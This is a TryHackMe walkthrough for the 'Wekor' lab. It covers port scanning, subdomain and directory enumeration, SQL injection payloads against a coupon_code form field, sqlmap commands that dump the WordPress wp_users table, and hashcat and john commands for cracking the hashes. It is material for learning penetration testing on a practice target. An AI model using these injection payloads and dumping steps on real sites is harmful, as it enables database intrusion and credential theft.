 ## TryHackMe Walkthrough - Wekor
Added wekor.thm to /etc/hosts

URL=wekor.thm
### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server domains
```bash
DNSLISTS=/usr/share/amass/wordlists/subdomains-top1mil-5000.txt
wfuzz -c -w $DNSLISTS -t30 --hw 3 -H "Host:FUZZ.${URL}" "http://${URL}"
```
### How to enumerate web server path/folder/directory
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -e -u http://site.${URL} -xphp,txt -t30 -w ${WORDLISTS}
```
### How to enumerate with wpscan
```bash
wpscan.api=$(cat ~/Downloads/wpscan.api)
wpscan --url http://site.${URL}/wordpress/ -e ap,u --api-token ${wpscan.api}
```
### How to bruteforce sql with sqlmap
Test if vulnerable to sqli
```bash
' or 1 = 1 -- -
```
Pull 
```bash
' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -
```
```bash
curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' OR 1=1 -- -" \
  -d "apply_coupon=Apply Coupon" | grep -i code

curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -" \ -d "apply_coupon=Apply Coupon" | grep -i code
```
Use SQLMAP to determine if the database can be pull
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
```
Use SQLMAP to explore databases and tables
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema
```
Use SQLMAP to pull specific database and table
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump
```
### How to crack the hash with hashcat
This is after you pull the users from the wordpress database and extract the hash password into a text file
```bash
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
## Resource
https://erichogue.ca/2021/06/Wekor

https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/Wekor%20Writeup
```
